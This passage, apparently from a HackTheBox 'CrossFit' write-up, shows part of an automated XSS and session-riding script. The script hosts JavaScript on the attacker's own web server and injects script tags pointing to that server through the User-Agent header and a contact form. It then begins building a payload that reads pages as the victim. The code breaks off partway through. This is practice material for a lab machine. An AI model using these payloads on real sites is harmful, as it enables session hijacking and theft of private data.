 ```py
```

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-27-HackTheBox-CrossFit/2021-10-27-HackTheBox-CrossFit%2007:37:06.png)

Obvislouly it's not a LFI or anything like that. But was good for practice and maybe in the future we use that to "access" the page as admin.

auto_xss.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto XSS and Session Riding - CrossFit - HackTheBox

import argparse
import requests
import sys
import base64
from threading import Thread
import threading
import http.server
import socket
from http.server import HTTPServer, SimpleHTTPRequestHandler
import os
import re

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Setting the python web server
def webServer():
    debug = True
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True
        thread.start()
    else:
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Trigger the XSS
def triggerXSS(lhost):
    url = "http://gym-club.crossfit.htb:80/blog-single.php"
    headers = {"User-Agent": "<script src=\"http://%s/0x4rt3mis.js\"></script>" %lhost, "Content-Type": "application/x-www-form-urlencoded"}
    data = {"name": "0x4rt3mis", "email": "0x4rt3mis@email.com", "phone": "123456", "message": "<script src=\"http://10.10.10.10/\"></script>", "submit": "submit"}
    r.post(url, headers=headers, data=data, proxies=proxies)

# Base64 decode things
def b64d(s):
    return base64.b64decode(s).decode()

# Create the JS payload to be sent
def createPayload(file,lhost):
    payload = "function read_report(){\n"
    payload += "        var req=new XMLHttpRequest();\n"
    payload += "        var url = 'http://gym-club.crossfit.htb/%s';\n" %file
```
